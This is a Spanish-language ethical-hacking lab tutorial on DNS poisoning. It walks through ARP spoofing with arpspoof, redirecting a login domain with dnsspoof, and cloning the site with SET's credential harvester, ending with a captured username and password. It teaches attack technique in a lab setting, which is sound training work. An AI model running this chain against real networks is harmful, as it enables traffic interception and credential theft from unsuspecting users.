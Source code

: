 DNS _(Domain Name System)_ es un servicio que se encarga de resolver nombres en las redes y traducirlos a la correspondiente dirección IP.

El envenenamiento DNS consiste en poder contestar con una resolución falsa. En este ejercicio se aprovechará el ataque _man-in-the-middle_ visto en el tema anterior para poder suplantar al router, y ser el atacante el que responda a las consultas DNS.

Si esto se compagina con la herramienta SET para clonar webs se puede convertir en un ataque algo más complejo pero muy útil si se quiere obtener la típica información que un cliente intercambia con una web (como _usuario:contraseña_) ayudándonos de la falta de conocimiento de la víctima.

### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1723/#laboratorio)LABORATORIO

#### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1723/#redirección)Redirección

Para este laboratorio se dispone de una máquina Ubuntu (víctima) y un Kali (atacante). Ambos están interconectados a través de la red _172.16.123.0_, además del router, qué será el _default gateway_ de ambas. Esto último puede comprobarse con el comando `route -n`.

```
root@ubuntu:~# route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref        Use Iface
0.0.0.0         172.16.123.2    0.0.0.0         UG    100    0        0 ens38
172.16.123.0    0.0.0.0         255.255.255.0   U     100    0        0 ens38
```

Y con el `arp -a` se verá la tabla donde se almacena la de las máquinas que conoce:

```
root@ubuntu:~# arp -a
? (172.16.123.137) at 00:0c:29:26:be:9b [ether] on ens38 (atacante)
? (172.16.123.2) at 00:50:56:eb:19:11 [ether] on ens38 (router)
...
```

Se debe lanzar el ataque visto en el tema anterior para que la víctima cambie la MAC del router por la del atacante y las comunicaciones pasen a través de éste último.

```
arpspoof -i eth1 -t 172.16.123.134 172.16.123.2
```

Obteniendo el resultado esperado:

```
root@ubuntu:~# arp -a
? (172.16.123.137) at 00:0c:29:26:be:9b [ether] on ens38
? (172.16.123.2) at 00:0c:29:26:be:9b [ether] on ens38
```

**Nota:** Recordatorio de que el ip_forwarding debe estar activado a 1.

Para comenzar el ataque DNS se creará un fichero con los nombres de los dominios a envenenar y la IP donde se quieren redirigir, como por ejemplo, se ha buscado un formulario HTTP por internet y se ha introducido en el fichero lo siguiente:

```
vi resolution.txt
|
| 172.16.123.137    login.hotpotatoes.net
|    
```

Para ver el funcionamiento de esta redirección se puede realizar un ping desde la víctima a dicho dominio obteniendo el siguiente resultado:

```
root@ubuntu:~# ping login.hotpotatoes.net
PING login.hotpotatoes.net (185.119.172.152) 56(84) bytes of data.
64 bytes from host53.servers.prgn.misp.co.uk (185.119.172.152): icmp_seq=1 ttl=128 time=31.6 ms
64 bytes from host53.servers.prgn.misp.co.uk (185.119.172.152)...
```

Se puede ver que está resolviendo dicho dominio a la IP **185.119.172.152** que por supuesto será la real. Si se lanza el ataque con el siguiente comando:

```
dnsspoof -i eth1 -f resolution.txt
```

y se vuelve a probar el ping:

```
root@ubuntu:~# ping login.hotpotatoes.net
PING login.hotpotatoes.net (172.16.123.137) 56(84) bytes of data.
64 bytes from login.hotpotatoes.net (172.16.123.137): icmp_seq=1 ttl=64 time=0.324 ms
64 bytes from login.hotpotatoes.net (172.16.123.137)...
```

Se puede comprobar cómo ha tenido éxito y se está realizando la redirección a la IP que se buscaba (atacante).

#### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1723/#clonado-de-la-web)Clonado de la web

Para este apartado se usará la herramienta SET con la que se va a suplantar la web haciéndole pensar a la víctima que está accediendo a una web legítima. Aprovechando que en dicha web existe un formulario de loging se puede intentar robar las credenciales de acceso a la misma. Para ello se va a utilizar la siguiente secuencia de comandos:

```
/usr/share/set/setoolkit
1 - Social Engineering Attacks
2 - Website Attack Vectors
3 - Credential Harvester Attack Method
2 - Site Cloner
IP atacante: 172.16.123.137
Web a clonar: login.hotpotatoes.net
```

Y cuando un usuario acceda con su login, SET devolverá dicha información.

```
('Array\n',)
('(\n',)
('    [type] => account\n',)
('    [username] => teacherName1\n',)
('    [password] => secret_password\n',)
('    [Submit] => Log In\n',)
(')\n',)
```